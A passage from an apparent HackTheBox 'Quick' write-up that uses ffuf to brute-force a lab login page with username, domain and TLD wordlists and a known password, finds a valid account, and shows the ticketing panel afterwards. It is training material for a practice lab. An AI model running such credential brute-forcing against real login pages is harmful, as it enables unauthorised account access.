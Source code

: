 ## Finding a valid user
Let's now use `ffuf` to try to bruteforce the login by generating all the
possible passwords using the three wordlists:
```
$ ffuf -r -c -fs 80 -w usernames.txt:USER -w domains.txt:DOMAIN -w tlds
.txt:TLD -X POST -d 'email=USER@DOMAIN.TLD&password=Quick4cc3$$' -H 'Accept-Encoding: gzip, deflate' -H
'Content-Type: application/x-www-form-urlencoded' -u http://10.10.10.186:9001/login.php

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0-git
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.10.186:9001/login.php
 :: Wordlist         : USER: usernames.txt
 :: Wordlist         : DOMAIN: domains.txt
 :: Wordlist         : TLD: tlds.txt
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : email=USER@DOMAIN.TLD&password=Quick4cc3$$
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 80
________________________________________________

[Status: 200, Size: 86, Words: 2, Lines: 1]
    * USER: elisa
    * DOMAIN: wink
    * TLD: co.uk
```

Let's now login with `elisa@wink.co.uk`:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/quick/ticketing.png)

Now, having access to the ticketing panel, we can create a ticket:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/quick/create-ticket.png)

An alert confirms the ticket creation:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/quick/created-ticket.png)
